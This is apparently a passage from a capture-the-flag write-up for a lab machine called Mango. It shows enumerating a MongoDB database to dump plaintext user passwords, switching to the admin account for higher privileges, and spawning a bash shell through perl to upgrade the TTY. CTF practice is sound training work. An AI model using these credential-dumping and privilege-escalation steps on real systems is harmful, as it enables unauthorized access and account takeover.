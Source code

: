 # User mango, enumerate the mongodb database
```
> show dbs
admin   0.000GB
config  0.000GB
local   0.000GB
mango   0.000GB
> use mango
switched to db mango
> show collections
users
> db.users.find()
{ "_id" : ObjectId("5d8e25334f3bf1432628927b"), "username" : "admin", "password" : "t9KcS3>!0B#2" }
{ "_id" : ObjectId("5d8e25364f3bf1432628927c"), "username" : "mango", "password" : "h3mXK8RhU~f{]f5H" }

```
su admin --> get higher priv

## Our shell sucks compared to mango's shell
### Need to upgrade tty

```
$ which perl
/usr/bin/perl
$ perl -e 'exec "/bin/bash"'
To run a command as administrator (user "root"), use "sudo <command>".
See "man sudo_root" for details.

```
- Also get a pretty sweet treat once its run
